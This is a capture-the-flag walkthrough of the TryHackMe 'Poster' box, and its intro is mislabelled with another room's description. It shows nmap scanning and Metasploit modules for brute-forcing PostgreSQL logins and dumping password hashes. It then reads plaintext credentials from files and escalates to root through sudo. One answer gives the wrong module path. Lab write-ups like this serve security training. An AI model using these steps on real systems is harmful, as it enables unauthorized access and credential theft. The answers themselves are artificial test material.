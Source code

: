 ```yaml
---
title: Walkthrough - Poster
published: true
---
```


RDBMS, SQL, Enumeration, Metasploit. Time to enter the warren... Can you hack into the Year of the Rabbit box without falling down a hole?

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- `sudo nmap -sV -sS -sC -O -p22,80,5432 -T4 10.10.5.243`

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:ed:48:af:29:9e:30:c1:b6:1d:ff:b0:24:cc:6d:cb (RSA)
|   256 eb:3a:a3:4e:6f:10:00:ab:ef:fc:c5:2b:0e:db:40:57 (ECDSA)
|_  256 3e:41:42:35:38:05:d3:92:eb:49:39:c6:e3:ee:78:de (ED25519)
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Poster CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
5432/tcp open  postgresql PostgreSQL DB 9.5.8 - 9.5.10 or 9.5.17 - 9.5.21
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-29T00:54:25
|_Not valid after:  2030-07-27T00:54:25
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* * * 

## What is the rdbms installed on the server?

- postgresql

* * * 

## What port is the rdbms running on?

- 5432

* * * 

## Metasploit contains a variety of modules that can be used to enumerate in multiple rdbms, making it easy to gather valuable information. After starting Metasploit, search for an associated auxiliary module that allows us to enumerate user credentials. What is the full path of the modules (starting with auxiliary)?

- `msf6 auxiliary(scanner/postgres/postgres_login) > set rhosts 10.10.5.243`

* * * 

## What are the credentials you found? user:password

- `[+] 10.10.5.243:5432 - Login Successful: postgres:password@template1`

* * * 

## What is the full path of the module that allows you to execute commands with the proper user credentials (starting with auxiliary)?

```
msf6 auxiliary(admin/postgres/postgres_sql) > run
[*] Running module against 10.10.5.243

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit

[*] Auxiliary module execution completed
```

* * * 

## Based on the results of #6, what is the rdbms version installed on the server?

- 9.5.21

* * * 

## What is the full path of the module that allows for dumping user hashes (starting with auxiliary)?

- `auxiliary/admin/postgres/postgres_sql`

* * * 

## How many user hashes does the module dump?

```
msf6 auxiliary(scanner/postgres/postgres_hashdump) > run

[+] Query appears to have run successfully
[+] Postgres Server Hashes
======================

 Username   Hash
 --------   ----
 darkstart  md58842b99375db43e9fdf238753623a27d
 poster     md578fb805c7412ae597b399844a54cce0a
 postgres   md532e12f215ba27cb750c9e093ce4b5127
 sistemas   md5f7dbc0d5a06653e74da6b1af9290ee2b
 ti         md57af9ac4c593e9e4f275576e13f935579
 tryhackme  md503aab1165001c8f8ccae31a8824efddc

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* * * 

## What is the full path of the module (starting with auxiliary) that allows an authenticated user to view files of their choosing on the server?

- `auxiliary/admin/postgres/postgres_readfile`

* * * 

## What is the full path of the module that allows arbitrary command execution with the proper user credentials (starting with exploit)?

- `exploit/multi/postgres/postgres_copy_from_program_cmd_exec`

* * * 

## Compromise the machine and locate user.txt

Found in a users dir:

```
postgres@ubuntu:/home/dark$ cat credentials.txt 
cat credentials.txt
dark:qwerty1234#!hackme
```

- we are able to loging via ssh with these creds

- `cat /etc/crontab` we find root is running a script `root    cd /opt/ufw && bash ufw.sh`

```
$ cat ufw.sh
ufw disable
```

we dont have access to write to this file. might be able to do soemthing with PATH but check some other things first. run linpeas.sh

find some loot

- `$dbpass = "p4ssw0rdS3cur3!#";  `
- /var/www/html/config.php
```
dark@ubuntu:/var/www/html$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
```

- su to alison with creds

* * * 

## Escalate privileges and obtain root.txt

- `sudo -l`
- `alison@ubuntu:/$ sudo cat root/root.txt`

* * * 


